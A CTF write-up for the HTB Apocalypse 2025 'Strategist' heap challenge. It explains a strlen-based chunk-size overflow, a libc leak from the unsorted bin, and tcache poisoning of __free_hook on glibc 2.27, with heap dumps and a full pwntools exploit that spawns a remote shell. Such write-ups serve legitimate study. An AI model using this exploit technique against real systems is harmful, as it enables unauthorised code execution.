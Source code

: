 ```yaml
---
title: Strategist
date: 2025-03-26:00:19+03:00
description: Writeup for Strategist [HTB Apocalypse 2025]
author: PineBel
tags:
- pwn 
- heap
draft: true 
---
```


## Challenge description

To move forward, Sir Alaric requests each member of his team to present their most effective planning strategy. The individual with the strongest plan will be appointed as the Strategist for the upcoming war. Put forth your best effort to claim the role of Strategist!

## Intuition

It looks like a classic heap challenge. We can control the size of malloc and write to that chunk. We can also remove (free) that chunk and edit its contents. We also get the libc version which is: `glibc 2.27`. 
I used `patchelf` to modify my binary to have the correct libc and ld.

**Vulnerability**: When editing a chunk, the edit function computes the length with strlen, which means that we can overwrite the size field of the next chunk if we make the current chunk full.

```C
    __nbytes = strlen((char *)mem_ptr[input_idx]);
    read(0,(void *)mem_ptr[input_idx],__nbytes);
```

Example (allocate two chunks of 24, fill the first one up):
```
                                    0x0000000000000021	........!....... <--- first chunk
0x555555a01670	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x555555a01680	0x0a61616161616161	0x0000000000000021	aaaaaaa.!....... <--- second chunk
0x555555a01690	0x0000000a42424242	0x0000000000000000	BBBB............
0x555555a016a0	0x0000000000000000	0x0000000000020961	........a.......	 <-- Top chunk
```

Now if we edit the first chunk, strlen() will also include the second chunks size, so we can overwrite the size if we want.

So the strategy for this challenge would be to leak a libc address and do tcache poisoning to the \_\_free\_hook (since we have 2.27 we can do that) 
## Solution

#### Leaking libc

1. Create a chunk that gets in the Unsorted bin (bc it has fwd ptr and bck ptr towards the main arena).
2. Guard the Unsorted bin chunk with a smaller chunk to prevent merging with the top.


After we allocate a large chuck and a smaller chunk + free the large chunk + allocate large again to get leak:
```
0x555574953660	0x0000000000000000	0x0000000000000431	........1.......
0x555574953670	0x00007ab6a23ebc61	0x00007ab6a23ebca0	a.>..z....>..z..
0x555574953680	0x0000000000000000	0x0000000000000000	................
```


So after the leak it's just a simple tcache poisoning.
Steps for tcache poisoning:

1. Allocate three chunks that will fit in the tcache.

```
0x55555d52e660	0x0000000000000000	0x0000000000000031	........1....... <--- C1
0x55555d52e670	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x55555d52e680	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x55555d52e690	0x6161616161616161	0x0000000000000031	aaaaaaaa1....... <--- C2
0x55555d52e6a0	0x6262626262626262	0x6262626262626262	bbbbbbbbbbbbbbbb
0x55555d52e6b0	0x6262626262626262	0x6262626262626262	bbbbbbbbbbbbbbbb
0x55555d52e6c0	0x6262626262626262	0x0000000000000031	bbbbbbbb1....... <--- C3
0x55555d52e6d0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x55555d52e6e0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x55555d52e6f0	0x6363636363636363
```

2. Use edit vuln to overwrite C2 size. This will allow us to overwrite C3 later.

```
0x555567480660	0x0000000000000000	0x0000000000000031	........1....... <--- C1
0x555567480670	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x555567480680	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x555567480690	0x6161616161616161	0x0000000000000061	aaaaaaaaa....... <--- C2 (NEW SIZE)
0x5555674806a0	0x6262626262626262	0x6262626262626262	bbbbbbbbbbbbbbbb
0x5555674806b0	0x6262626262626262	0x6262626262626262	bbbbbbbbbbbbbbbb
0x5555674806c0	0x6262626262626262	0x0000000000000031	bbbbbbbb1....... <--- C3
0x5555674806d0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x5555674806e0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x5555674806f0	0x6363636363636363
```

3. Free C2 and C3 

```
                                    0x0000000000000031	........1....... <--- C1
0x555582d1f670	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x555582d1f680	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x555582d1f690	0x6161616161616161	0x0000000000000061	aaaaaaaaa....... <--- C2 
0x555582d1f6a0	0x0000000000000000	0x0000555582d1f010	............UU..	 <-- tcachebins[0x60][0/1]
0x555582d1f6b0	0x6262626262626262	0x6262626262626262	bbbbbbbbbbbbbbbb
0x555582d1f6c0	0x6262626262626262	0x0000000000000031	bbbbbbbb1....... <--- C3
0x555582d1f6d0	0x0000000000000000	0x0000555582d1f010	............UU..	 <-- tcachebins[0x30][0/1]
0x555582d1f6e0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x555582d1f6f0	0x6363636363636363
```

4. Allocate a chunk that fits in the 0x60 chunk size => we can overwrite C3 with the free hook

```
0x55555d4f7660	0x0000000000000000	0x0000000000000031	........1....... <--- C1
0x55555d4f7670	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x55555d4f7680	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x55555d4f7690	0x6161616161616161	0x0000000000000061	aaaaaaaaa....... <--- C2
0x55555d4f76a0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x55555d4f76b0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x55555d4f76c0	0x6363636363636363	0x3434343434343434	cccccccc44444444 <--- C3 overwritten  (6d0 -> __free_hook ptr)
0x55555d4f76d0	0x00007f2d071ed8e8	0x000055555d4f7010	....-....pO]UU..	 <-- tcachebins[0x30][0/1]
0x55555d4f76e0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x55555d4f76f0	0x6363636363636363

tcachebins
0x30 [  1]: 0x55555d4f76d0 —▸ 0x7f2d071ed8e8 (__free_hook) 
```

5. Allocate a chunk that will contain the args for system.
6. Allocate a chunk with a ptr to sytem.

```
x/1xg &__free_hook
0x78ed30ded8e8 <__free_hook>:	0x000078ed30a4f550
pwndbg> x 0x000078ed30a4f550
0x78ed30a4f550 <system>:	0xfa66e90b74ff8548
```

7. Call free on the chunk that has /bin/sh


Solve:
```py
from pwn import *
import time

#context.binary = bin = ELF("./strategist")
libc   = ELF('./libc.so.6')
ld = ELF('./ld-linux-x86-64.so.2')
#target = process([ld.path,bin.path],env={"LD_PRELOAD":libc.path})
target = remote("94.237.61.57",45450)


def allocate(size, p):
    target.sendlineafter(b'> ', b'1')
    target.sendlineafter(b'> ', str(size).encode())
    target.sendafter(b'> ', p)

def free(idx):
     target.sendlineafter(b'> ', b'4')
     target.sendlineafter(b'> ', str(idx).encode())

def show(idx):
    target.sendlineafter(b'> ', b'2')
    target.sendlineafter(b'> ', str(idx).encode())
    target.recvuntil(f'Plan [{idx}]: ')
    return target.recvline()[:-1]

def edit(idx,p):
    target.sendlineafter(b'> ', b'3')
    target.sendlineafter(b'> ', str(idx).encode())
    target.sendafter(b'> ', p)


allocate(0x420,b"a") # put in unsorted bin because it has 2 ptrs that we will leak 
allocate(0x100,b"b") # put tcache so that we don't merge with top chunk when we free

free(0)
free(1)

allocate(0x420,b"a") # this is the chunk with leak
leak = u64(show(0).ljust(8,b'\x00'))
leak = leak - 0x3ebc61
libc.address = leak
print(f"Leak:{leak:#010x}")
#print(hex(libc.sym.__free_hook))
free(0)


### Tcache poisoning

tcache_size = 0x28

allocate(tcache_size, tcache_size*b"a") # full chunk => leads to overflow
allocate(tcache_size, tcache_size*b"b") 
allocate(tcache_size, tcache_size*b"c")


edit(0,tcache_size*b"a"+p8(0x61)) # edit chunk so that we overwrite chunk size 
free(1)
free(2)

allocate(0x50,tcache_size*b"c"+b"4"*8+p64(libc.sym.__free_hook)) # this chunk will go into the one that overflows the second one (fwd_ptr), the second size actually doesn't matters (the 4)

allocate(tcache_size, b"/bin/sh\x00"+p64(0x0)) # prepare arg for system
allocate(tcache_size, p64(libc.sym.system)) # write system in free hook
#gdb.attach(target)
#pause()

print(show(2))
free(2) # call system with /bin/sh arg
target.interactive()
```




